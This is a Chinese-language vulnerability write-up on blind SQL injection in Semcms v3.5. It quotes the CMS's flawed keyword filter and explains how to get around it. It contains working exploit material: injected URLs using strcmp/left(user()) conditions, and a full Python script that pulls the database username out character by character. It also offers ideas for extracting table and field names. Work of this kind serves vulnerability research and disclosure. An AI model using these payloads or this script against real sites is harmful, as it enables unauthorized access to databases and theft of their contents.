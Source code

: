Semcms v3.5 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.5

三、复现过程
------------

### 漏洞分析

在分析过程中看到网上已经有人发现semcms
V2.4存在过滤不严导致sql注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件index.php的代码

    1 <?php
    2 include_once  'Include/web_inc.php';
    3 include_once  'Templete/default/Include/Function.php';
    4 $file_url="";
    5 include_once  'Templete/default/Include/default.php';
    6 ?>
     1 //网站logo
     2 
     3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
     4 
     5 // 控制文字标签 更改 获取的 语种 id
     6 
     7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
     8 
     9 if(!empty($Language)){
    10 
    11       //网站SEO设定
    12 
    13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
    14       $row=mysqli_fetch_array($query);
    15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
     1 // 防sql入注
     2 
     3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';} 　　　　//所有GET方式提交的变量都进行防注入检查
     4  
     5 foreach ($GetArray as $value){ //get
     6     
     7     verify_str($value);
     8   
     9 }
    10 
    11 function inject_check_sql($sql_str) {
    12   
    13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);　　　　//过滤关键字
    14 } 
    15 
    16 function verify_str($str) { 
    17  
    18    if(inject_check_sql($str)) {
    19    
    20        exit('Sorry,You do this is wrong! (.-.)');　　　　　　//如果出现关键字则提示
    21     } 
    22  
    23     return $str; 
    24 }
     1 function test_input($data) { 　　　　　　　　　　　　　　　　　　//防止XSS
     2       $data = str_replace("<script", "", $data);
     3       $data = str_replace("</script>", "", $data);
     4       $data = str_replace("%", "percent", $data);
     5       $data = trim($data);
     6       $data = stripslashes($data);
     7       $data = htmlspecialchars($data,ENT_QUOTES);　　　　//实体编码
     8       return $data;
     9 
    10    }

　　可以看到第16行的函数verify\_str()调用inject\_check\_sql()用来过滤危险字符，函数test\_input用来过滤xss。其中可以明显地看到第11行的函数inject\_check\_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0　　　　显示正常

![](./.resource/Semcmsv3.5sql注入漏洞/media/rId26.png)

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0　　　　显示错误

![](./.resource/Semcmsv3.5sql注入漏洞/media/rId27.png)

参考网上已有的fuzz盲注脚本改了下，代码如下

    #用python3版本
    import requests
    url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
    print("Testing url: " + url)
    #十进制数33-126间的ascii hex值
    payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
                "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
                "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
                "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
                "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
                "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
                "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
                "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
                "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
                "0x7b","0x7c","0x7d"
               ]
    user = ""
    for b in range(len(payload)):
        for a in payload:
            #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
            sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
            res = requests.get(url + sql_payload_user).text
            res1 = requests.get(url).text
            if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
                user = user + a
                print(" ")
                print("[*]info : 0x" + user.replace("0x","").upper())
                break
            else:
                print('\r',"Match failed,Next.....",end='')

测试结果如下图

![](./.resource/Semcmsv3.5sql注入漏洞/media/rId28.png)

解码ascii
hex值0x726F6F74406C6F63616C686F7374为root\@localhost。当然因为过滤了select，获取表名就有点困难了，t00ls中看到有人介绍用selselectect来绕过的方式跟这个CMS的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过fuzz猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章[blind-sql-injection-burpsuite-like-a-boss(要翻墙)](https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss)

参考链接
--------

> <https://www.cnblogs.com/st404/p/10087191.html>
